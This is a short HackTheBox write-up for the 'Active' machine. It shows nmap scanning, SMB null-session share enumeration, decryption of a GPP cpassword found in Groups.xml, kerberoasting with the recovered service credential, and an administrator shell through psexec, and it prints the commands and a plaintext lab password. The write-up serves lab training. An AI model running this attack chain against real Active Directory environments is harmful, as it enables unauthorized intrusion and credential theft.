 ```yaml
---
layout: post
title: "Active"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


starting with nmap 
`sudo nmap -sC -sV -p- -oN active -T4 10.10.10.100`
![[Pasted image 20240525110417.png]]


smb null session is allowed , let's explore open shares
`nxc smb 10.10.10.100 -u '' -p '' --shares -M spider_plus
`
![[Pasted image 20240525110701.png]]
Groups.xml looks juicy
![[Pasted image 20240525110751.png]]


let's connect to this share ,and get this file

`smbclient -N \\\\10.10.10.100\\Replication -U ''`

we found cpassword , we can decrypt it using ==gpp-decrypt==
![[Pasted image 20240525110913.png]]

`gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
`
![[Pasted image 20240525111021.png]]

we got creds for thje SVC_TGS
![[Pasted image 20240525111146.png]]


let's try kerberoasting attack using the creds we found

`nxc ldap 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoast kerberoasting`
![[Pasted image 20240525111243.png]]

let's try to crack it

![[Pasted image 20240525111411.png]]

we can now get psexec to get shell on the box as administrator 

![[Pasted image 20240525111519.png]]